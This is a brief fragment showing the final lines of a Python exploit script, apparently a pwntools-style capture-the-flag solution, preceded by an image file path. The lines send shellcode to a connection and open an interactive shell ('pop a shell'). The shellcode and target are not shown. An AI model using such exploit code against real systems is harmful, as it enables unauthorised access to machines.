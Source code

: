 ```python
	r.send(shellcode)
	# pop a shell ;)
	r.interactive()


if __name__ == "__main__":
	main()

```


